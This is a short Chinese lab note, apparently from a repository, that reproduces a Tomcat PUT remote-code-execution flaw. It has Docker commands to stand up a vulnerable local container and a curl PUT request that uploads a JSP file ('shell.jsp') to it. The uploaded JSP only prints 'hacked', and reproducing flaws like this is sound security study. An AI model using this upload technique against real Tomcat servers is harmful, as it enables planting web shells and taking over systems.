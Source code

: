 环境搭建
```
docker build -t tomcat-put-rce .
docker run -d -p 9090:8080 tomcat-put-rce
```

![](./img/a47a4781b08945299203c2604e865bad.png)


漏洞复现
```
// Windows CMD
curl -X PUT http://127.0.0.1:9090/shell.jsp/ -d "<%out.print(\"hacked\"); %>"
```

![](./img/78441023e68b43aebaf3df4fbb6b6dbd.png)

